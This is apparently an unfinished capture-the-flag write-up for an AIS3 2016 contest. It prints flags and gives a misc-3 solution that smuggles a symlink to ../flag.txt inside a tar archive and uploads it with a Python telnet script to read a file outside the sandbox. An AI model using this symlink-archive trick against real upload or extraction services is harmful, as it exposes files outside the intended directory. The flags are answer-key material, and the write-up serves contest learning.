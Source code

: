 ## misc-1

Open the misc1.txt.

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip


## misc-3

Hint: symbolic link (透過 tar 可保留 synblic link)

`ln -s ../flag.txt guess.txt`

`tar cvf guess.tar guess.txt`

`python misc3_sol.py`

Here is the misc3_sol.py code 

```
import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```

The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [pwntool](https://github.com/hellman/xortool) 破解此題

`

## crypto-2


## web-1


## web-2


## web-3



